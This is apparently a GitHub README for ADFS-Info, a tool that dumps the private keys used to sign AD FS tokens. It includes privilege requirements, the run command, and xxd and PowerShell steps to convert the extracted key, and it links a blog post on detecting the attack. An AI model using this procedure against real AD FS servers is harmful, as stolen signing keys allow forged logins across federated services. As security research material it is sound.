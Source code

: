# ADFS-Info

I created a small project to get the private keys for signing AD FS tokens, including the token-signing certificate.

For more information about this attack, please check my blog post:  
https://thalpius.com/2020/12/28/microsoft-defender-for-identity-adfsdump/

# Usage ADFS-Info
Run the tool on the AD FS server with Domain Admin privileges or with the AD FS service account:  
```cmd
ADFS-Info.exe
```

To convert the private key to the correct binary format on *nix use xxd:  
```bash
xxd -r -p keyinput.bin keyoutput.bin
```

To convert the private key to the correct binary format on Windows use PowerShell:  

```PowerShell
$HexStringfile = "C:\users\thalpius\desktop\keyinput.bin"
$OutputFile = "C:\users\thalpius\desktop\keyoutput.bin"

if ($HexstringFile -ne "") {
  $HexString = Get-Content -readcount 0 -path $HexStringFile
  $HexString = $HexString[0]
  $count = $hexString.length
  $byteCount = $count/2
  $bytes = New-Object byte[] $byteCount
  $byte = $null

  $x = 0
  for ( $i = 0; $i -le $count-1; $i+=2 )
  { 
    $bytes[$x] = [byte]::Parse($hexString.Substring($i,2), [System.Globalization.NumberStyles]::HexNumber)
    $x += 1
  }

  if ($OutputFile -ne "") {
    set-content -encoding byte $OutputFile -value $bytes
  } else {
    write-host "No output file specified"
  }
} else{
  write-host "Error, no input file specified"
}
```

**Note**: Always use the last created private key.

# Screenshot

![Alt text](/Screenshots/ADFSInfo01.jpg?raw=true "ADFS Info")
